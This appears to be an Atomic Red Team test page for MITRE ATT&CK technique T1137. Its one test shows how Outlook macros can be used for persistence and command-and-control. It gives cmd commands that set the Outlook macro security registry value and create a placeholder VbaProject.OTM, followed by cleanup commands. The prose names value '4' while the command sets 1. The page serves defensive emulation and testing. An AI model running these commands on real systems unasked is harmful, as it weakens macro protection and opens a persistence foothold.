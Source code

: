 # T1137 - Office Application Startup
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137)
<blockquote>Adversaries may leverage Microsoft Office-based applications for persistence between startups. Microsoft Office is a fairly common application suite on Windows-based operating systems within an enterprise network. There are multiple mechanisms that can be used with Office for persistence when an Office-based application is started; this can include the use of Office Template Macros and add-ins.

A variety of features have been discovered in Outlook that can be abused to obtain persistence, such as Outlook rules, forms, and Home Page.(Citation: SensePost Ruler GitHub) These persistence mechanisms can work within Outlook or be used through Office 365.(Citation: TechNet O365 Outlook Rules)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Office Application Startup - Outlook as a C2](#atomic-test-1---office-application-startup---outlook-as-a-c2)


<br/>

## Atomic Test #1 - Office Application Startup - Outlook as a C2

auto_generated_guid: bfe6ac15-c50b-4c4f-a186-0fc6b8ba936c

As outlined in MDSEC's Blog post https://www.mdsec.co.uk/2020/11/a-fresh-outlook-on-mail-based-persistence/ 
it is possible to use Outlook Macro as a way to achieve persistance and execute arbitrary commands. This transform Outlook into a C2.
Too achieve this two things must happened on the syste
- The macro security registry value must be set to '4'
- A file called VbaProject.OTM must be created in the Outlook Folder.
**Supported Platforms:** Windows





#### Attack Commands: Run with `command_prompt`! 


```cmd
reg add "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level" /t REG_DWORD /d 1 /f
mkdir  %APPDATA%\Microsoft\Outlook\ >nul 2>&1
echo "Atomic Red Team TEST" > %APPDATA%\Microsoft\Outlook\VbaProject.OTM
```

#### Cleanup Commands:
```cmd
reg delete "HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\Outlook\Security\Level" /f
del %APPDATA%\Microsoft\Outlook\VbaProject.OTM
```





<br/>
